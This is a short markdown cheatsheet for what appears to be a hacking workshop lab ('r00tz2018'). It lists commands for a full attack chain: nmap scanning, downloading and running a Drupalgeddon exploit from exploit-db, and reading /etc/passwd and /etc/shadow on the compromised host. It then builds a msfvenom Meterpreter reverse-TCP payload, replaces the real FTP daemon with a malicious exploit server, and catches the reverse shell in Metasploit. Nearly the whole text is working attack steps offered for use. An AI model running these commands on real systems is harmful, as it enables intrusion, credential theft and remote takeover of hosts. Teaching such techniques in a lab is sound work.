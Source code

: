 # r00tz2018 Commands Cheatsheet

Ping a host
```bash
ping [target internal IP]
```

Nmap a host
```bash
nmap [target internal IP] -T5 -A -sS -p20-450,3389,5900-5902
```

Download and run Drupalgeddon exploit
```bash
cd ~
wget https://www.exploit-db.com/download/44449.rb
ruby 44449.rb http://[target internal address]
```

Recon on exploited host
```bash
whoami
cat /etc/passwd
cat /etc/shadow
ls -hal ~
pwd
ls -hal ./
```

Enumerate network services on exploited host
```bash
netstat -ltnup
```

Generate pivot RCE exploit
```bash
sudo ifconfig eth0
# use the inet IP for the LHOST parameter in the next command. Alternatively, just use the one below.
cd ~
msfvenom -p windows/meterpreter/reverse_tcp -f python -b '\x00\x22\x0d\x0a\x5c\' LHOST=$(sudo ifconfig eth0 | awk '$0~/inet / {print $2}') LPORT=443 > rtcp_bytecode.txt
```

Setup for pivot exploits
```bash
cd ~

# copy over payload
scp ec2-user@[your internal ip]:~/rtcp_bytecode.txt ./

# download exploit server
wget https://www.exploit-db.com/raw/44596/ > ftpexploit.py
# copy rtcp_bytecode into the buf variable in ftpexploit.py
sudo python ftpexploit.py

# find and kill real ftpd
ps aux | grep ftp 
ls -l /proc/[PID of ftpd]/exe
kill -15 [PID of ftpd]
```

Start Metasploit on attacker VM
```bash
sudo msfconsole
```

Commands for metasploit
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [your internal ip]
set lport 443
run
```
